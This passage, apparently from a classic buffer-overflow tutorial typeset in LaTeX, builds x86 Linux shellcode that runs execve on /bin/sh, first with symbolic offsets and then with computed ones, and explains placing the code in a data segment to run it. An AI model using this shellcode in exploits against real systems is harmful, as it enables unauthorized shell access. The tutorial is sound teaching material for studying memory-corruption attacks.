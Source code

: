 \documentclass[a4paper]{article}
\begin{document}
\begin{figure}[H]
\centering
\texttt{[image: fig6.png]}
\end{figure}

With this modifications, using indexed addressing, and writing down how many bytes each instruction takes our code looks like:

\begin{verbatim}

	jmp    offset-to-call           # 2 bytes
	popl   %esi                     # 1 byte
	movl   %esi,array-offset(%esi)  # 3 bytes
	movb   $0x0,nullbyteoffset(%esi)# 4 bytes
	movl   $0x0,null-offset(%esi)   # 7 bytes
	movl   $0xb,%eax                # 5 bytes
	movl   %esi,%ebx                # 2 bytes
	leal   array-offset,(%esi),%ecx # 3 bytes
	leal   null-offset(%esi),%edx   # 3 bytes
	int    $0x80                    # 2 bytes
	movl   $0x1, %eax				# 5 bytes
	movl   $0x0, %ebx				# 5 bytes
	int    $0x80					# 2 bytes
	call   offset-to-popl           # 5 bytes
	/bin/sh string goes here.
    
\end{verbatim}

Calculating the offsets from jmp to call, from call to popl, from the string address to the array, and from the string address to the null long word, we now have:

\begin{verbatim}

	jmp    0x26                     # 2 bytes
	popl   %esi                     # 1 byte
	movl   %esi,0x8(%esi)           # 3 bytes
	movb   $0x0,0x7(%esi)			# 4 bytes
	movl   $0x0,0xc(%esi)           # 7 bytes
	movl   $0xb,%eax                # 5 bytes
	movl   %esi,%ebx                # 2 bytes
	leal   0x8(%esi),%ecx           # 3 bytes
	leal   0xc(%esi),%edx           # 3 bytes
	int    $0x80                    # 2 bytes
	movl   $0x1, %eax				# 5 bytes
	movl   $0x0, %ebx				# 5 bytes
	int    $0x80					# 2 bytes
	call   -0x2b                    # 5 bytes
	.string \"/bin/sh\"				# 8 bytes
    
\end{verbatim}


Looks good. To make sure it works correctly we must compile it and run it. But there is a problem. Our code modifies itself, but most operating system mark code pages read-only. To get around this restriction we must place the code we wish to execute in the stack or data segment, and transfer control to it. To do so we will place our code in a global array in the data segment. We need first a hex representation of the binary code. Lets compile it first, and then use gdb to obtain it.
\end{document}
